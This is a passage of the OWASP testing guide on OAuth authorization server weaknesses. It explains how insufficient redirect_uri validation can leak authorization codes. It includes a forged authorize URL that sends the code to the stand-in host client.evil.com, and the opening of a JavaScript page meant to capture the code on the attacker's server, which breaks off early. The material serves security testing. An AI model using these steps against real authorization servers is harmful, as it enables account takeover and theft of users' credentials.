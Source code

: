 # Testing OAuth Authorization Server Weaknesses

|ID            |
|--------------|
|WSTG-ATHZ-05.1|

## Summary

OAuth stores the identities of users and the correspondent access rights at the AS (Authorization Server). The AS does play a crucial role during the OAuth flow as it grants clients access to resources. To be able to do that securely it must properly validate parameters which are part of the OAuth flows.

Failure to validate the parameters may lead to account takeover, unauthorized resource access and the elevation of privileges.

## Test Objectives

- Retrieve credentials used for authorization
- Grant yourself access to arbitrary resources trough forceful browsing
- Bypass the authorization

## How to test

### Testing for insufficient Redirect URI Validation

The OAuth flow makes use of a `redirect_uri` in the authorization request to redirect the AS back to client. The AS sends the `authorization_code` in the response to the authorization request. If the `redirect_uri` is not properly validated a link can be crafted that contains a URL pointing to a server controlled by an attacker. This can be used to trick the AS into sending an authorization code to the attacker. In the following example `client.evil.com` is used as the forged `redirect_uri`.

<code> 
https://as.example.com/authorize?client_id=example-client&redirect_uri=<mark>http%3A%2F%client.evil.com%2F</mark>&state=example&response_mode=fragment&response_type=code&scope=openid&nonce=example
</code>  

If a user opens the link in the user-agent, the AS will redirect the user agent to the spoofed URL.
The attacker can host a script on the spoofed URL that captures the `code` value and submits it back to the AS's token endpoint.  

This can be archived with the following sample code hosted at the attacker controlled server.

    Note: This JavaScript is compatible with Keycloak, other AS may need tweaking of the requests. The script will fail when the AS has CORS configured and blocks cross-origin requests from the attackers origin. If CORS is configured a setup that allows the spoofing of the origin header, is required.

Host this at a server you own, localhost is fine as well.

```JavaScript
<html>
    <body>
    <head>
        <title>OAuth open redirects</title>
    </head>
<h3>OAuth code: </h3>

<p id="code"></p>

<script>
    
    var keycloak_url = "as.example.com"
    var client_id = "MY_CLIENT_ID"
    var redirect_uri = "MY_REDIRECT_URI"
```
